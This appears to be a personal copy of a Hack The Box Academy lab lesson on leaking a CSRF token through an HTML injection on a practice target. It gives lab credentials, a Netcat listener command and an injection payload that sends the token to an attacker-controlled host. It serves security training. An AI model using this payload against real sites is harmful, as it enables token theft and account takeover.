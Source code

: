 ```yaml
---
sticker: emoji//1f512
---
```

The vast majority of applications nowadays perform actions through POST requests. Subsequently, CSRF tokens will reside in POST data. Let us attack such an application and try to find a way to leak the CSRF token so that we can mount a CSRF attack.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost (`csrf.htb.net`) to access the application.

Navigate to `http://csrf.htb.net` and log in to the application using the credentials below:

- Email: heavycat106
- Password: rocknrol

This is an account that we created to look at the application's functionality.

After authenticating as a user, you'll notice that you can delete your account. Let us see how one could steal the user's CSRF-Token by exploiting an HTML Injection/XSS Vulnerability.

Click on the "Delete" button. You will get redirected to `/app/delete/<your-email>`

![image](https://academy.hackthebox.com/storage/modules/153/36.png)

Notice that the email is reflected on the page. Let us try inputting some HTML into the _email_ value, such as:

![[Pasted image 20250219130350.png]]

![image](https://academy.hackthebox.com/storage/modules/153/37.png)

If you inspect the source (`Ctrl+U`), you will notice that our injection happens before a `single quote`. We can abuse this to leak the CSRF-Token.

![image](https://academy.hackthebox.com/storage/modules/153/39.png)

Let us first instruct Netcat to listen on port 8000, as follows.

```shell-session
smoothment@htb[/htb]$ nc -nlvp 8000
listening on [any] 8000 ...
```

Now we can get the CSRF token via sending the below payload to our victim.


```html
<table%20background='%2f%2f<VPN/TUN Adapter IP>:PORT%2f
```

While still logged in as Julie Rogers, open a new tab and visit `http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f`. You will notice a connection being made that leaks the CSRF token.

![image](https://academy.hackthebox.com/storage/modules/153/40.png)

Since the attack was successful against our test account, we can do the same against any account of our choosing.

We remind you that this attack does not require the attacker to reside in the local network. HTML Injection is used to leak the victim's CSRF token remotely!

Next, we will cover how you can chain XSS and CSRF to attack a user's session.

# Question
---
![[Pasted image 20250219130418.png]]

